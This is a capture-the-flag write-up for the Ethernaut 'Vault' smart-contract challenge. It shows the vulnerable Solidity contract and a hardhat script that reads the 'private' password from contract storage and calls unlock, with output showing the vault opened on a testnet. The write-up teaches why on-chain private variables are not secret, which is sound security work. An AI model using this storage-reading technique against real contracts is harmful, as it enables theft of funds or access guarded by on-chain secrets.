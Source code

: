 ```yaml
---
title: Ethernaut #08 Vault
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Vault challenge writeup
---
```


## Vault

### Challenge

Unlock the vault to pass the level!


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

### Background

Private variables are not accessible by smart contracts, however, since the blockchain is public, anyone can check the value directly from the blockchain and use it.

### Attack

Somehow access the private `password` value from the public blockchain and use it to call the `unlock` function.

* Access the private `password` value from the blockchain
* Submit the `password` using to `unlock` function to unlock the vault

#### vault-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    vaultAddress = "0x5F9f995f50C557073606266cdd86f148D72d9926";
    contract = await ethers.getContractAt("Vault", vaultAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address: " + contract.address)
    console.log("Vault locked : " + await contract.locked())

    // get private password value from storage
    paddedSlot = ethers.utils.hexZeroPad(1, 32);
    passwordBytes32 = await ethers.provider.getStorageAt(contract.address, paddedSlot);
    password = ethers.utils.toUtf8String(passwordBytes32)
    console.log("Password     : '" + password + "'")

    // submit password
    tx = await contract.connect(account).unlock(passwordBytes32)
    receipt = await tx.wait()

    console.log("Vault locked : " + await contract.locked())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/vault-solve.js --network rinkeby
Level address: 0x5F9f995f50C557073606266cdd86f148D72d9926
Vault locked : true
Password     : 'A very strong secret password :)'
Vault locked : false
```

### Success Message

It's important to remember that marking a variable as private only prevents other contracts from accessing it. State variables marked as private and local variables are still publicly accessible.

To ensure that data is private, it needs to be encrypted before being put onto the blockchain. In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it. [zk-SNARKs](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/) provide a way to determine whether someone possesses a secret parameter, without ever having to reveal the parameter.
